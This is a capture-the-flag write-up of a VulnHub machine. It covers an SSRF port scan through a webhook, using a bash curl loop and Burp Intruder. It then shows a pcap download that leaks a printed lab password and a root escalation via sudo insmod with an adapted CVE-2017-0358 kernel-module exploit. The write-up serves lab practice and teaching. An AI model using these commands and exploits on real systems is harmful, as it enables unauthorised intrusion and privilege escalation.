








<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-2,331/">Innoculation</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap



We can see only two ports are open. Let's start our enumeration with HTTP service.

***

## HTTP

If we visit the website we can see a simple text field which accepts `https` URLs.


I tried including lot of URLs but none seemed to bear anything useful. Then [@theart42](https://twitter.com/theart42) told me that I should use that webhook as a port scanner for internal system. He also told me to use `burp suite's` intruder for this. So I captured the requests in burp and prepared the burp intruder.

For payload position I only changed the port number.



For Payload I used port numbers from `1-65535`. If you don't have that you can just generate this by simple python code.

```python
file = "port-num.txt"
with open(file, 'w') as f:
       for i in range(1,65536):
           f.write(str(i))
           f.write("\n" )
```
This code will give you a file named `port-num.txt` that will have all the port numbers. Now just load it in the payload section and start the attack.
But the problem was that attack was very slow so I decided to use make a bash script that will do the same work for us.

```bash
for x in {1..65535};
    do cmd=$(curl -so /dev/null -X POST http://192.168.56.126/testhook.php --data "handler=http://2130706433:${x}" -w '%{size_download}')
    if [ $cmd != 0 ]; then
        echo "Open port: $x"
    fi
done
```

This script will output all the ports that doesn't return content-length equal to 0. Scirpt will also take some time but it will be much lesser as compared to burp suite.



So port `80` and `9999`are open. On port 80 I got `bad request` but on port `9999` I could see some directory typed output.



I downloaded that `dump.pcap` via curl by running:

```bash
➜ curl -X POST http://192.168.56.126/testhook.php --data "handler=http://2130706433:9999/dump.pcap" --output dump.pcap
```

That file didn't had much data only few request and one of them had the password.



`maynard:Js&S_uFJgg~YM4_g`

**NOTE**: the url `/pass4maynard` gives away the username.

I used these credentials to login via SSH and get the `user.txt`

***

## Privilege Escalation

I ran my enumeration script but didn't found anything good.
Then I checked for the `sudo` rights and there were some for `/sbin/insmod` and `/sbin/rmmod` and both of them were linked to `/bin/kmod`



I googled them and found an exploit for it and found [ntfs-3g (Debian 9) - Local Privilege Escalation](https://www.exploit-db.com/exploits/41240)

There are few changes that you might have to do in that exploit. In the `makefile` section copy paste:

```
obj-m += cve_2017_0358.o

all:
    make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) modules

clean:
    make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) clean
```

also make sure you are using `ubuntu 18.04` because other OS might not have those headers. We are doing this because because there is no `make` on the vitim machine. And that header has to be changed because the exploit is only for debian 9.

If everything worked fine then you've have a `cve_2017_0358.ko`. Transfer that to machine and run `sudo insmod ./cve_2017_0358.ko` that will make a `suid` in `/tmp` then you can get root shell using `./r00t -p`.



Then get the root flag.



***

This was really pretty awesome machine with really great foothold and an amazing privelege escalation.

Thanks to [@zayotic](https://twitter.com/zayotic/). Also thanks to [@theart42](https://twitter.com/theart42) for helping me out.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
